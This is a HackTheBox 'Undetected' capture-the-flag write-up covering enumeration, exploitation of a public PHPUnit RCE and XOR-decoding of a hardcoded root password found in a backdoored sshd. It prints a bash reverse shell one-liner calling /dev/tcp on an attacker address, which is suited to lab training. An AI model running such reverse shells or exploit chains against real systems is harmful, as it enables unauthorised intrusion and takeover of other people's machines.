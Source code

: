```yaml
---
title: Undetected HackTheBox Writeup
tags: [writeup,hackthebox,rce,linux,xor,reversing,phpunit]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/2.png)

## Enumeration
We access the website and review the different sections and the source code.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/3.png)

We see a section called "*store*", it shows a direct link and we can list a valid subdomain.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/4.png)

We add the subdomain to our file "*/etc/hosts/*.

We access the store subdomain and we see an online shopping cart.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/5.png)

According to them, the site does not accept orders, so they may have another web resource on another subdomain, we tried to take out subdomains by forcing vhost, but without success.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/6.png)

We launch the **dirsearch** tool, we manage to list multiple paths where directory listing usually exist.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/7.png)

##### Example of directory listing:
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/8.png)


## Exploitation
We checked the software versions in the "*installed.json*" file for vulnerabilities and exploits, and found that **PHP Unit version 4.0.8** is vulnerable to remote code execution (RCE).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/9.png)

#### Exploit: [PHP Unit 4.8.28 - Remote Code Execution (RCE) (Unauthenticated) - PHP webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/50702)

We download and run the exploit, we see that it works perfectly in this proof of concept.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/10.png)

We put a **netcat** and run a reverse shell to have a more interactive one.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/11.png)

##### Code used:
```bash
/usr/bin/bash -c "bash -i >& /dev/tcp/10.10.XX.XX/443 0>&1"
```

We searched for files and found the "*info*" file in backups, it looks like it is running a **bash** with a hexadecimal string.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/12.png)

Decoding the content, we see that a script is being executed in which a hash of a user is hardcoded. 

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/13.png)

We put the hash in a file and crack it with **john**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/14.png)

We check the "*/etc/passwd*" and find the users, try the password with both users and one works. 

We see that we can also read the flag of *user.txt*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/15.png)


## Privilege Escalation
We launch the **linpeas.sh** script to perform a deep and fast reconnaissance of the system, we see that it is vulnerable to *Polkit* and *Pwnkit*, but we will try not to exploit these paths.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/16.png)

We identify the user *Steven's* path to his mailbox.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/17.png)

We read the email left by the root user, it seems that they are having difficulties with the **Apache service** and the website, while they investigate the problem they have left a temporary password to authenticate us on the server. But where?   

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/18.png)

Assuming the team is scared, I assume that file is one of the last things they have modified or deployed to the server. So we look for the last modified files by date, we find a library called "*mod_reader.so*":

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/19.png)

We transfer it to our machine and use **strings** on it, we find a string that looks like **base64**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/20.png)

We see that the **wget** binary is being executed on an image and on the **sshd** binary, but this does not make any sense... Unless that **sshd** is not what it looks like.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/21.png)

We transfer the **sshd** binary, compare the hashes and see that they are different, so it could be the file we are looking for "*camouflaged*" in the system.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/22.png)

We open the file with **Ghidra**, list a function called "*backdoor*" and it seems to contain an authentication for the **SSH** service.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/23.png)

In this code trace it is very clear, it is performing a comparison of both strings, therefore it is validating a password that is hardcoded in the binary.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/24.png)

We reviewed the code of the "*backdoor*" function, we found several variables with **hexadecimal** values:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/25.png)

Then we see that there is a loop where it is storing the content of the previous variables and computing them in **XOR** with the key "*0x96*" in **hexadecimal**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/26.png)

We used the online tool **Cyberchef**, inserted the parameters and managed to obtain the password in plain text.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/27.png)

We connect via **SSH** with the root user and read the *root.txt* file:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Undetected/28.png)




